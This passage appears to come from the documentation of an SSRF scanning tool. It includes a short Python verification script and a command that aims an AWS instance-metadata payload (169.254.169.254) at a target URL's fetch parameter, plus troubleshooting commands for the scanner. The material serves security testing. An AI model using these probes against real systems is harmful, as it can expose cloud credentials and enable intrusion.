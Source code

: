 ### 3. Result Validation
```bash
# Manual verification script
cat > verify_findings.py << 'EOF'
import requests
import sys

def verify_ssrf(url, payload):
    try:
        response = requests.get(url.replace('test', payload), timeout=10)
        print(f"Status: {response.status_code}")
        print(f"Length: {len(response.text)}")
        if 'metadata' in response.text.lower():
            print("⚠️  Potential AWS metadata access!")
        return response
    except Exception as e:
        print(f"Error: {e}")
        return None

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python verify_findings.py <url> <payload>")
        sys.exit(1)
    
    url, payload = sys.argv[1], sys.argv[2]
    verify_ssrf(url, payload)
EOF

# Use verification script
python3 verify_findings.py "http://target.com/fetch?url=test" "http://169.254.169.254/latest/meta-data/"
```

## 🔧 Troubleshooting

### Common Issues

#### 1. Connection Errors
```bash
# Issue: "Connection refused" errors
# Solution: Check target availability
curl -I http://target.com

# Issue: SSL certificate errors  
# Solution: Use --insecure flag (add to scanner if needed)
```

#### 2. Memory Issues
```bash
# Issue: High memory usage
# Solution: Reduce thread count
python3 ssrf_scanner.py -u "http://target.com" -t 3

# Issue: Timeout errors
# Solution: Increase timeout
python3 ssrf_scanner.py -u "http://target.com" --timeout 30
```
